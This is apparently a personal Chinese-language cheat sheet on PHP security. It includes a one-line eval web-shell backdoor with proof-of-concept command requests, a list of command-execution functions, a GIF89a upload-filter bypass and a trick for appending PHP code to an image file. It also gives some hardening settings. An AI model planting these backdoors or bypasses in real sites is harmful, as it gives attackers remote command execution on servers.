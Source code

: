 ```yaml
---
title: "php"
date: 2016-01-25 14:15
---
```


## 一句话后门

```php
$cmd = $_POST['cmd'];                                                      
eval("$cmd;");

poc:
? cmd=echo phpinfo()  
? cmd=echo exec("ls -l")
```

## php 开关标签

php共有四种开关标签，如下两种总是有效的

```
<?php ?> 
<script language=”php”> </script>
```

另外两种需要在 php.ini 配置文件设置开或关

```
(“<?”, “?>”)
(“<%”,”%>”)
```

## 执行系统命令（命令注入攻击）



* shell_exec()

> string shell_exec ( string $cmd )

命令执行的输出。 如果执行过程中发生错误或者进程不产生输出，则返回 NULL。

* system()

> string system ( string $command [, int &$return_var ］)

成功则返回命令输出的结果， 失败则返回 FALSE

* exec() 

> string exec( string $command [, array &$output [, int &$return_var ］)

返回命令执行结果的最后一行内容

* passthru

> void passthru ( string $command [, int &$return_var ］ )

直接将结果输出到游览器,不返回任何值

* popen()

* proc_open()

* `(反撇号)

```
echo `ls -l`;
```



** for security**

* php.ini

```
safe_mode = On      #safe mode
safe_mode_exec_dir = /usr/local/php/bin/    #limit path

disable_functions="eval,phpinfo"
```

* 使用escapeshellcmd()和escapeshellarg()函数阻止用户恶意在系统上执行命令

    + escapeshellcmd()针对的是执行的系统命令

    + escapeshellarg()针对的是执行系
    
## upload

** bypass **

* 文件头+GIF89a



## dangerous functions

* file_get_contents()

> string file_get_contents ( string $filename [, bool $use_include_path = false [, resource $context [, int $offset = -1 [, int $maxlen ]]]] )

支持本地文件，HTTP，FTP

禁用file_get_contents,修改php.ini

```
allow_url_fopen=Off
```

* curl

支持 FTP(S),HTTP(S),TELNET,FILE,DICT,LDAP,GOPHER

install: sudo apt-get install php5-curl. then restart apache


## LDAP注入

[乌云 LDAP注入与防御][5]

[5]: http://drops.wooyun.org/tips/967

## 备注

* 注入php 到图片等

```
echo '<?php phpinfo();?>' >> 1.jpg
```

文件名后缀改为**.php**，就会用php方式解析，执行phpinfo().
